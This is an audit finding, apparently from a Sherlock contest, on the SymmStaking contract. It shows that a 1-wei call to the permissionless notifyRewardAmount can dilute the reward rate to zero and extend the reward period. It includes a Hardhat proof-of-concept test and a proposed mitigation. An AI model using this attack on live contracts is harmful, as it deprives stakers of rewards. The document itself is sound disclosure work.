 Brief Mulberry Armadillo

High

# Reward rate can be diluted by attacker

## Description
The current flow allows anyone to call `notifyRewardAmount()` --> `_addRewardsForToken()` which [decreases](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L374) the `state.rate` and [increases](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L378) `state.periodFinish`. This dilutes rewards:
```solidity
	function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];

		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
@--->      	state.rate = (amount + leftover) / state.duration;
		}

		state.lastUpdated = block.timestamp;
@--->	state.periodFinish = block.timestamp + state.duration;
	}
```

An attack vector would be:
1. Assume current `state.rate` to be `1` like it is in [existing test](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/tests/symmStaking.behavior.ts#L96) `"should calculate reward correctly after single user deposit"`. The period duration is `1 week`. Reward amount is `604800` which `24 * 7 * 60 * 60`.
2. After some duration has passed say, half a week, attacker calls `notifyRewardAmount()` with some reward token amount as `1 wei`
3. Since half of the period duration has passed, `_addRewardsForToken()` calculates `state.rate = (amount + leftover) / state.duration = (1 + 604800/2) / 1 week` which rounds down to `0`.
4. The remaining reward is not paid now since rate has been reduced to `0`. While this is an extreme case, in other cases too the rate will get diluted. And of course the period duration keeps on getting extended with each reward addition.

## Impact
1. **Reward Rate Dilution**: Each time new rewards are added to an ongoing period, the reward rate gets reduced, providing stakers with lower rewards than expected within a defined time duration. Such delays in receiving rewards are akin to loss of funds (loss of investment opportunity due to time delays).
2. **Economic Misalignment**: The distribution pattern does not align with typical staking expectations, where reward rates should remain consistent within a single reward period.
3. **Perpetual Extension**: If rewards are added regularly, the reward period could be extended indefinitely, preventing it from ever ending.

Note that even if an attacker is not involved, normal course of operations by the admin causes this issue. See `Root Cause & Mitigation` section below for a fix recommendation.

## Proof of Concept
Add this inside `token/tests/symmStaking.behavior.ts` under the `describe("Reward Calculation"` block and run to see the following output:
```js
		it("shows bug - how reward rate can be manipulated with small amounts", async function () {
			const depositAmount = "604800"
			const initialRewardAmount = depositAmount
			
			// Setup reward token
			await stakingToken.connect(admin).approve(await symmStaking.getAddress(), initialRewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [initialRewardAmount])
			
			// Get initial reward rate
			const initialState = await symmStaking.rewardState(await stakingToken.getAddress())
			const initialRate = initialState.rate
			const initialPeriodFinish = initialState.periodFinish
			console.log("\nInitial reward rate:", initialRate.toString())
			
			// User deposits tokens
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)
		  
			// Wait some time to accumulate rewards
			await time.increase(Number(initialState.duration) / 2)
		  
			// Now simulate an attack with minimal reward amount to dilute the rate. --> user2 = attacker
			const attackAmount = "1" // Just 1 wei
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), attackAmount)
			await symmStaking.connect(user2).notifyRewardAmount([await stakingToken.getAddress()], [attackAmount])
		  
			// Check how rate was manipulated
			const attackedState = await symmStaking.rewardState(await stakingToken.getAddress())
			const attackedRate = attackedState.rate
			const attackedPeriodFinish = attackedState.periodFinish
			console.log("\nAttacked reward rate:", attackedRate.toString())
		  
			// Verify the impact of the attack
			expect(attackedPeriodFinish).to.be.gt(initialPeriodFinish) // Period has been extended
			expect(attackedRate).to.be.lt(initialRate) // Rate has been reduced
			expect(attackedRate).to.eq(0) // Rate has been reduced
		})
```

Output:
```js

Initial reward rate: 1

Attacked reward rate: 0
          ✔ shows bug - how reward rate can be manipulated with small amounts

```

## Root Cause & Mitigation 
The fundamental problem is that the current design doesn't properly separate different "tranches" of rewards. When new rewards are added, they're combined with existing rewards in a way that disrupts the original distribution plan. A truly fair system would need to:
- Keep track of separate reward schedules for each reward addition.
- Distribute each reward schedule according to its own timeline & rate.
- Although not strictly required, the protocol can even choose to make `notifyRewardAmount()` permissioned and only callable by admin as a measure of additional security.
